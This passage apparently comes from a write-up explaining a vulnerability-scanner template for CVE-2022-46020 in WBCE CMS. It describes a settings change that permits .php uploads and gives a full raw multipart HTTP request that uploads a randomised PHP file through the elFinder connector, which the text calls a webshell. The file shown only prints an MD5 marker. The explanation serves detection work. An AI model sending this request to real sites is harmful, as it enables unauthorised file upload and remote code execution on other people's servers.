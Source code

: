 **Purpose:**

- Sends a POST request to `/admin/settings/save.php`.
    
- Modifies key configuration options:
    
    - Changes `page_extension` to `.php`.
        
    - Alters upload settings to allow `.php` files to be uploaded.
        
- Prepares the application for arbitrary PHP file uploads, enabling RCE.
    


####  Fifth Request: Upload Webshell

```yaml
- raw:
    - |
      POST /modules/elfinder/ef/php/connector.wbce.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: multipart/form-data; boundary=---------------------------boundary

      -----------------------------boundary
      Content-Disposition: form-data; name="reqid"

      test
      -----------------------------boundary
      Content-Disposition: form-data; name="cmd"

      upload
      -----------------------------boundary
      Content-Disposition: form-data; name="target"

      l1_Lw
      -----------------------------boundary
      Content-Disposition: form-data; name="upload[]"; filename="{{randstr}}.php"
      Content-Type: application/x-php

      <?php echo md5("CVE-2022-46020"); ?>

      -----------------------------boundary
      Content-Disposition: form-data; name="mtime[]"

      1
      -----------------------------boundary--
```

**Purpose:**

- Uploads a `.php` webshell to the `/media/` directory.
    
- The shell, when accessed, outputs the MD5 hash of `"CVE-2022-46020"`.
    
- The filename is randomized using `{{randstr}}` to avoid detection.
    

